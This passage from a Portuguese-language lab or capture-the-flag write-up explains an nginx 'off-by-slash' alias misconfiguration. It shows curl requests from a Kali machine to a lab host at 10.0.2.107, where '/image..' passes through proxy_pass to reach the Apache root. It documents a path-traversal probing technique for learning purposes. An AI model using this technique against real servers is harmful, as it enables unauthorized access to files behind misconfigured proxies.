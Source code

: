 <html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>
* Connection #0 to host 10.0.2.107 left intact
{{< /highlight >}}
{{< /bs/toggle-item >}}

{{< bs/toggle-item "Acesso ao Path" >}}
{{< highlight bash >}}
┌──(kali㉿kali)-[~]
└─$ curl -v http://10.0.2.107/image.. 
*   Trying 10.0.2.107:80...
* Connected to 10.0.2.107 (10.0.2.107) port 80
* using HTTP/1.x
> GET /image.. HTTP/1.1
> Host: 10.0.2.107
> User-Agent: curl/8.14.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx/1.13.0
< Date: Fri, 18 Jul 2025 18:27:39 GMT
< Content-Type: text/html
< Content-Length: 45
< Connection: keep-alive
< Last-Modified: Mon, 11 Jun 2007 18:53:14 GMT
< ETag: "2d-432a5e4a73a80"
< Accept-Ranges: bytes
< 
<html><body><h1>It works!</h1></body></html>
* Connection #0 to host 10.0.2.107 left intact
{{< /highlight >}}
{{< /bs/toggle-item >}}
{{< /bs/toggle >}}




Isso confirma que **qualquer caminho que comece com `/image`** é direcionado para o `location /image` e, consequentemente, para o Apache através do `proxy_pass`.

**Resumo do fluxo:**

1. Nginx recebe `/image../`
2. Nginx faz match com `location /image`
3. Nginx executa `proxy_pass` para `http://apache:80/Chibi/` + `..`
4. Apache recebe requisição para `/Chibi/..`
5. Apache normaliza `/Chibi/..` para `/` (raiz)
6. Apache retorna página padrão: "It works!"

Esse mesmo conceito se aplica para o diretório `/tshirt../`.
